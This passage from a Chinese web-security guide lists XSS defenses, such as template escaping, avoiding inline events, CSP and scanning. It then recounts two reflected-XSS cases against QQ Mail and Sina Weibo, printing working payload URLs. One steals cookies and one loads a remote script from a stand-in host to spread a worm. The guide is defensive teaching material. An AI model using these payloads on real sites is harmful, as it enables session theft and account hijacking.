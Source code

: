 - **利用模板引擎**
    开启模板引擎自带的 HTML 转义功能。例如：
    在 ejs 中，尽量使用 `<%= data %>` 而不是 `<%- data %>`；
    在 doT.js 中，尽量使用 `{{! data }` 而不是 `{{= data }`；
    在 FreeMarker 中，确保引擎版本高于 2.3.24，并且选择正确的 `freemarker.core.OutputFormat`。
- **避免内联事件**
    尽量不要使用 `onLoad="onload('{{data}}')"`、`onClick="go('{{action}}')"` 这种拼接内联事件的写法。在 JavaScript 中通过 `.addEventlistener()` 事件绑定会更安全。
- **避免拼接 HTML**
    前端采用拼接 HTML 的方法比较危险，如果框架允许，使用 `createElement`、`setAttribute` 之类的方法实现。或者采用比较成熟的渲染框架，如 Vue/React 等。
- **时刻保持警惕**
    在插入位置为 DOM 属性、链接等位置时，要打起精神，严加防范。
- **增加攻击难度，降低攻击后果**
    通过 CSP、输入长度配置、接口安全措施等方法，增加攻击的难度，降低攻击的后果。
- **主动检测和发现**
    可使用 XSS 攻击字符串和自动扫描工具寻找潜在的 XSS 漏洞。

### XSS 攻击案例

##### QQ 邮箱 m.exmail.qq.com 域名反射型 XSS 漏洞

攻击者发现 `http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb` 这个 URL 的参数 `uin`、`domain` 未经转义直接输出到 HTML 中。

于是攻击者构建出一个 URL，并引导用户去点击：

`http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb%26quot%3B%3Breturn+false%3B%26quot%3B%26lt%3B%2Fscript%26gt%3B%26lt%3Bscript%26gt%3Balert(document.cookie)%26lt%3B%2Fscript%26gt%3B`

用户点击这个 URL 时，服务端取出 URL 参数，拼接到 HTML 响应中：

```
<script>
getTop().location.href="/cgi-bin/loginpage?autologin=n&errtype=1&verify=&clientuin=aaa"+"&t="+"&d=bbbb";return false;</script><script>alert(document.cookie)</script>"+"...
```

浏览器接收到响应后就会执行 `alert(document.cookie)`，攻击者通过 JavaScript 即可窃取当前用户在 QQ 邮箱域名下的 Cookie ，进而危害数据安全。

##### 新浪微博名人堂反射型 XSS 漏洞

攻击者发现 `http://weibo.com/pub/star/g/xyyyd` 这个 URL 的内容未经过滤直接输出到 HTML 中。

于是攻击者构建出一个 URL，然后诱导用户去点击：

`http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>`

用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：

```
<li><a href="http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>">按分类检索</a></li>
```

浏览器接收到响应后就会加载执行恶意脚本 `//xxxx.cn/image/t.js`，在恶意脚本中利用用户的登录状态进行关注、发微博、发私信等操作，发出的微博和私信可再带上攻击 URL，诱导更多人点击，不断放大攻击范围。这种窃用受害者身份发布恶意内容，层层放大攻击范围的方式，被称为“XSS 蠕虫”。

### 扩展阅读：Automatic Context-Aware Escaping
